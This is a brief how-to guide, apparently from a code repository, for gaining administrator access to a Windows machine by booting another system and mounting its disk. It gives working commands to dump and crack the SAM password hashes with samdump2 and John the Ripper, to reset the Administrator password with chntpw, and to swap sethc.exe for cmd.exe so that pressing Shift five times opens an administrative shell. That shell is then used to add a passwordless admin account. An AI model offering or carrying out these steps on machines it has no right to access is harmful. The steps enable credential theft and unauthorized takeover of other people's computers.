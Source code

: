 Become administrator in Windows
===============================


Different methods
-----------------

1) Bruteforce password

- John-the-ripper
http://www.openwall.com/john/
- samdump2
http://sourceforge.net/projects/ophrack/files/samdump2/

2) Replace current password

- chntpw
http://pogostick.net/~pnh/ntpasswd/

3) Exploit the sethc.exe bug and make a new account


HOWTO
-----

### Common for all methods

	# mkdir <DIR>
	# mount -t ntfs <WINDISK> <DIR>


### Bruteforce password

	# cd <DIR>/Windows/System32/config
	# samdump2 SYSTEM SAM > ~/hive
	# cat ~/hive | grep Administrator > ~/nt-hash
	# john --format=NT ~/nt-hash

	...wait...


### Replace current password

	# cd <DIR>/Windows/System32/config
	# chntpw -l SAM
	# chntpw -u Administrator


### Exploit sethc.exe bug

	# cd <DIR>/Windows/System32
	# mv sethc.exe sethc.bak
	# cp cmd.exe sethc.exe
	# sync
	# reboot

Let Windows boot. Press SHIFT five times.
cmd.exe opens up with administrative privileges.

	> net user foobar /add /passwordreq:no
	> net localgroup administrators foobar /add
	> exit

Log in using only foobar. Restore sethc.exe, perhaps?

---

*Written by Prodhe*
